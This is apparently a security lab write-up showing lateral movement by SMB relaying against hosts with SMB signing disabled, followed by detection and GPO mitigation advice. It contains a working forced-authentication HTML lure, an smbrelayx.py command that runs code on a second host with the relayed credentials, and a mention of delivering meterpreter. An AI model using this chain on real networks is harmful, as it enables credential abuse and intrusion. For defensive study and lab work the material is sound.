 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-> `10.0.0.5` -relays to-> `10.0.0.6` executes code with victim1(10.0.0.2) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% content-ref url="../initial-access/t1187-forced-authentication.md" %}
[t1187-forced-authentication.md](../initial-access/t1187-forced-authentication.md)
{% endcontent-ref %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system (on the right). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](../../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](../../.gitbook/assets/screenshot-from-2018-12-31-13-29-13.png)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network server: Digitally sign communications (always)** to `Enabled`:

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" %}
